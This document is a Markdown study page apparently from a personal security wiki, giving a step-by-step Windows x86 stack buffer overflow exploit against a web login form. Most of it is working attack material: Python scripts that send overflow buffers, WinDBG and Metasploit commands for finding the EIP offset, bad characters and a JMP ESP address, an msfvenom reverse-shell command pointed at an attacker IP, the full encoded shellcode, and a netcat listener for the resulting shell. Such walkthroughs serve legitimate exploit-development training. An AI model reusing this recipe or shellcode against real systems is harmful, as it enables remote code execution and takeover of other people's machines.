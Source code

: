 ```yaml
---
title: Stack Buffer Overflow
parent: Windows x86
layout: default
nav_order: 1
---
```


1. First have a PoC ready. Should look like below. Ensure this can overwrite EIP (should be 41414141). Open WinDBG and attach to the process. Run the code on Kali.

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = "192.168.1.1" # host
    port = 80
    size = 800
    inputBuffer = b"A" * size
    content = b"username=" + inputBuffer + b"&password=A"

    buffer = b"POST /login HTTP/1.1\r\n"
    buffer += b"Host: " + server.encode() + b"\r\n"
    buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
    buffer += b"Referer: http://10.11.0.22/login\r\n"
    buffer += b"Connection: close\r\n"
    buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
    buffer += b"\r\n"
    buffer += content

    print("Sending evil buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buffer)
    s.close()
    
    print("Done!")
    
    except socket.error:
    print("Could not connect!")
    ```

2. Run `msf-pattern_create -l 800` where 800 should be longer or same than the crash length to identify where it crash. Comment the previous inputBuffer in the Python PoC and use this instead.
3. Check what is in EIP in WinDBG, and then use `msf-pattern_offset -l 800 -q EIPVALUE` to get the offset.
4. To ensure that the address is correct, can do something like this if the EIP offset is 780:

    ```
    ...
    filler = b"A" * 780 # EIP Offset
    eip = b"B" * 4 # Value that should be for EIP Address
    buf = b"C" * 16 # Check to see where this goes
    inputBuffer = filler + eip + buf
    ...
    ```

5. If the EIP address is now 42424242, then the offset address is correct.
6. In WinDBG, use `r` to check the registers (usually ESP address), then use `dds esp L3` and `dds esp -10 L8` to see if the ESP register points to Cs (and also check which set of C, it might not be the first). If yes it means we can use ESP to host shellcode.
7. If only a few bytes of Cs are available there, need to ensure that it has enough space. Can use D this time to find out if have enough space for shellcode (800 to 1500 bytes will be sufficient).

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = sys.argv[1]
    port = 80
    size = 800
    
    filler = b"A" * 780
    eip = b"B" * 4
    offset = b"C" * 4
    shellcode = b"D" * (1500 - len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + shellcode
    content = b"username=" + inputBuffer + b"&password=A"
    ...
    ```

8. Run this again and should notice that the ESP now points correctly to D (44444444), and not any front or after. (Use `r` and `dds esp - 8 L7`).
9. To check how much space you have, find where does it end. Do a trial and error (`dds esp+100 L8`,`dds esp+200 L8`,... in this case it is `dds esp+2c0 L4`). Use that line that no longer has D (44444444) to minus the ESP start address with `? 00567724 - 0056745c`.
10. Check for bad characters by replacing D with all hex except 0x00:

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = sys.argv[1]
    port = 80
    size = 800
    
    filler = b"A" * 780
    eip = b"B" * 4
    offset = b"C" * 4
    badchars = (
        b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
        b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
        b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
        b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
        b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
        b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
        b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
        b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
        b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
        b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
        b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
        b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
        b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
        b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
        b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
    # bad chars: \x00,
    #shellcode = "D" * (1500 - len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + badchars
    ...
    ```

11. Now retrigger and check `db esp - 10 L20` to see which characters are truncated or missing. Remove that specific character and try again. Do this until all bad characters are removed.
12. Next we need to find an address that points to ESP (cannot be pointing to the address number directly because stack address changes from time to time). Usually this can be done by finding a JMP ESP instruction. This address of instruction must be static, and also not have any bad characters.
13. This can be done by using ProcessHacker. Launch as admin then locate the executable. Double click on it then Properties -> General -> Mitigation Policies will tell you if there are any protections like ASLR and DEP. If click on Modules tab can see the DLLs being loaded. From here need to find a DLL that has address range with no bad characters.
14. In Kali, run `msf-nasm_shell`, then `jmp esp` to get the instruction for JMP ESP (it is FFE4).
15. In WinDBG, run `lm m libspp`, where libspp is the dll chosen just now, and you will get start and end address. Use `s -b 10000000 10223000 0xff 0xe4` (the first 2 is start and end address, and ff e4 is JMP ESP). It should reveal an address. Make sure the address doesnt have bad characters. Use `u 10090c83` to make sure the address is JMP ESP.
16. Can now update the code to include this address (endian, so need reverse order):

    ```
    #!/usr/bin/python
    import socket
    import sys

    try:
    server = sys.argv[1]
    port = 80
    size = 800
    
    filler = b"A" * 780
    eip = b"\x83\x0c\x09\x10" # 0x10090c83 - JMP ESP
    offset = b"C" * 4
    shellcode = "D" * (1500 - len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + shellcode
    content = b"username=" + inputBuffer + b"&password=A"
    ...
    ```

17. To ensure this is working correctly, use a breakpoint on the JMP ESP instruction (0x10090c83) by using `bp 10090c83`. `bl` to confirm it, `g` to continue execution then once it hits breakpoint, run `t` and `dc eip L4` to ensure EIP is overwritten with D.
18. Use msfvenom `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=8888 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"` with the -b being bad characters to generate shellcode. Ensure that the size is smaller than your shellcode available size.
19. Add NOP slides so that the CPU will slide through the NOPs to reach shellcode. For Python3, remove the word bytearray and add b infront each line after shellcode:

    ```
    ...
    filler = b"A" * 780
    eip = b"\x83\x0c\x09\x10" # 0x10090c83 - JMP ESP
    offset = b"C" * 4
    nops = b"\x90" * 10
    shellcode = bytearray(
    "\xdd\xc4\xba\x6d\xdc\x1e\xf1\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
    "\x52\x31\x56\x17\x83\xee\xfc\x03\x3b\xcf\xfc\x04\x3f\x07\x82"
    "\xe7\xbf\xd8\xe3\x6e\x5a\xe9\x23\x14\x2f\x5a\x94\x5e\x7d\x57"
    "\x5f\x32\x95\xec\x2d\x9b\x9a\x45\x9b\xfd\x95\x56\xb0\x3e\xb4"
    "\xd4\xcb\x12\x16\xe4\x03\x67\x57\x21\x79\x8a\x05\xfa\xf5\x39"
    "\xb9\x8f\x40\x82\x32\xc3\x45\x82\xa7\x94\x64\xa3\x76\xae\x3e"
    "\x63\x79\x63\x4b\x2a\x61\x60\x76\xe4\x1a\x52\x0c\xf7\xca\xaa"
    "\xed\x54\x33\x03\x1c\xa4\x74\xa4\xff\xd3\x8c\xd6\x82\xe3\x4b"
    "\xa4\x58\x61\x4f\x0e\x2a\xd1\xab\xae\xff\x84\x38\xbc\xb4\xc3"
    "\x66\xa1\x4b\x07\x1d\xdd\xc0\xa6\xf1\x57\x92\x8c\xd5\x3c\x40"
    "\xac\x4c\x99\x27\xd1\x8e\x42\x97\x77\xc5\x6f\xcc\x05\x84\xe7"
    "\x21\x24\x36\xf8\x2d\x3f\x45\xca\xf2\xeb\xc1\x66\x7a\x32\x16"
    "\x88\x51\x82\x88\x77\x5a\xf3\x81\xb3\x0e\xa3\xb9\x12\x2f\x28"
    "\x39\x9a\xfa\xff\x69\x34\x55\x40\xd9\xf4\x05\x28\x33\xfb\x7a"
    "\x48\x3c\xd1\x12\xe3\xc7\xb2\xdc\x5c\xb0\x3a\xb5\x9e\x3e\xba"
    "\xfe\x16\xd8\xd6\x10\x7f\x73\x4f\x88\xda\x0f\xee\x55\xf1\x6a"
    "\x30\xdd\xf6\x8b\xff\x16\x72\x9f\x68\xd7\xc9\xfd\x3f\xe8\xe7"
    "\x69\xa3\x7b\x6c\x69\xaa\x67\x3b\x3e\xfb\x56\x32\xaa\x11\xc0"
    "\xec\xc8\xeb\x94\xd7\x48\x30\x65\xd9\x51\xb5\xd1\xfd\x41\x03"
    "\xd9\xb9\x35\xdb\x8c\x17\xe3\x9d\x66\xd6\x5d\x74\xd4\xb0\x09"
    "\x01\x16\x03\x4f\x0e\x73\xf5\xaf\xbf\x2a\x40\xd0\x70\xbb\x44"
    "\xa9\x6c\x5b\xaa\x60\x35\x6b\xe1\x28\x1c\xe4\xac\xb9\x1c\x69"
    "\x4f\x14\x62\x94\xcc\x9c\x1b\x63\xcc\xd5\x1e\x2f\x4a\x06\x53"
    "\x20\x3f\x28\xc0\x41\x6a")
    shellcode+= "D" * (1500 - len(filler) - len(eip) - len(offset) - len(shellcode))
    inputBuffer = filler + eip + offset + nops + shellcode
    ...
    ```

20. Run `sudo nc -lvp 8888` on Kali, send the exploit code and you should receive shell.